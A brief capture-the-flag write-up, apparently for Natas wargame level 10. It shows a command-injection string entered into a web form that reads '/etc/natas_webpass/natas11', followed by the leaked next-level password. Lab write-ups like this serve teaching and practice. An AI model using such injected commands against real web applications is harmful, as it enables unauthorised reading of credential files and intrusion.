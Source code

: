 # Level 10
Entered the following in the input box:  
*... cat /etc/natas_webpass/natas11 #*

Got the following:  
/etc/natas_webpass/natas11:<ins>U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK</ins>